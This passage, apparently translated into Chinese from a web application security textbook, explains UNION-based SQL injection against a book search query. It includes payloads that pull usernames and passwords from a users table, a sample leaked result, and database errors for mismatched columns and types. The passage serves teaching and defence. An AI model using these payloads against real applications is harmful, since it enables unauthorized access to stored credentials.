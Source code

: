 |AUTHOR|TITLE|YEAR|
|-|-|-|
|Litchfield|The Database Hacker’s Handbook|2005|
|Anley|The Shellcoder’s Handbook|2007|

前面已经看到了攻击者如何向搜索功能提供精心设计的输入，以颠覆查询的`WHERE`子句，从而返回数据库中所有的书。 更为有趣的攻击方法是使用`UNION`运算符注入第二个`SELECT`查询，并将其结果附加到第一个查询中。 第二个查询可以从另一个数据库表中提取数据。 例如，输入搜索词：
```
Wiley' UNION SELECT username,password,uid FROM users--
```
使应用程序执行以下查询：
```
SELECT author,title,year FROM books WHERE publisher = 'Wiley'
UNION SELECT username,password,uid FROM users--'
```
这将返回原始搜索的结果，然后返回users表的内容：

|AUTHOR|TITLE|YEAR|
|-|-|-|
|Litchfield|The Database Hacker’s Handbook|2005|
|Anley|The Shellcoder’s Handbook|2007|
|admin|r00tr0x|0|
|cliff|Reboot|1|

**NOTE**
当使用UNION运算符组合两个或多个SELECT查询的结果时，组合结果集的列名与第一个SELECT查询返回的列名相同。 如上表所示，用户名显示在`author`列中，密码显示在`title`列中。 这意味着，当应用程序处理修改后的查询的结果时，它无法检测到返回的数据是否源自其他表。

这个简单的示例演示了在SQL注入攻击中使用UNION运算符的潜在强大功能。 但是，在以这种方式利用它之前，需要考虑两个重要的条件：
- 使用UNION运算符合并两个查询的结果时，两个结果集必须具有相同的结构。 换句话说，它们必须包含相同数量的列，它们具有相同或兼容的数据类型，并且以相同的顺序出现。
- 要注入第二个查询以返回有趣的结果，攻击者需要知道他要定位的数据库表的名称以及相关列的名称。

让我们更深入地了解这些前提条件。 假设攻击者尝试注入第二个查询，该查询返回错误的列数。 他提供了以下输入：
```
Wiley' UNION SELECT username,password FROM users--
```
原始查询返回三列，而注入的查询仅返回两列。 因此，数据库返回以下错误：
```
ORA-01789: query block has incorrect number of result columns
```
假设攻击者尝试注入第二个查询，这些查询的列具有不兼容的数据类型。 他提供了以下输入：
```
Wiley' UNION SELECT uid,username,password FROM users--
```
这将导致数据库尝试将第二个查询（包含字符串数据）中的password列与第一个查询（包含数字数据）中的year列组合在一起。 由于无法将字符串数据转换为数字数据，因此会导致错误：
```
ORA-01790: expression must have same datatype as corresponding expression
```
